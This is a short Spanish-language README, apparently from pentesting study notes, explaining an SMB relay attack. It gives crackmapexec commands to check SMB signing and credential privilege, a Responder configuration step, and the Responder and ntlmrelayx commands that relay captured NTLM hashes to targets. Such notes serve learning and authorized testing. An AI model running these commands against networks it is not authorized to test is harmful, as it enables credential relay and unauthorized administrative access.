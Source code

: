 # Qué es un SMB Relay?

- En vez de crackear hashes obtenidos con el Repsonder, podemos pasar esos hashes a alguna máquina específica para ganar acceso.
- Es necesario que el SMB no esté firmado para que no se de validado la legitimdad del origen.
- Las credenciales que se le pasen a un equipo deben ser de un Administrador del mismo.

# Explicación gráfica del vector de ataque

[Ver la imagen](Images/main/README.md)

# Como ver si el smb está fimado

```
crackmapexec smb <target>
```

[Ver Ejemplo](Images/firma/README.md)


# Comprobar si tus credenciales son privilegiadas sobre un equipo

```
crackmapexec smb <target> -u 'USUARIO' -p 'CONTRASEÑA'
```
[Ver Ejemplo](Images/creds/README.md)


# Configurar Responder para SMB Relay
HTTP y SMB deben estar en Off en la configuración del Responder

```
sudo nano /usr/share/responder/Responder.conf
```
<img src="https://i.imgur.com/XypgqGB.png" />

# Efectuar un SMB Relay por IPv4

```
python /usr/share/responder.py -I tun0 -rdw
ntlmrelayx.py -tf <targets.txt> -smb2support
```

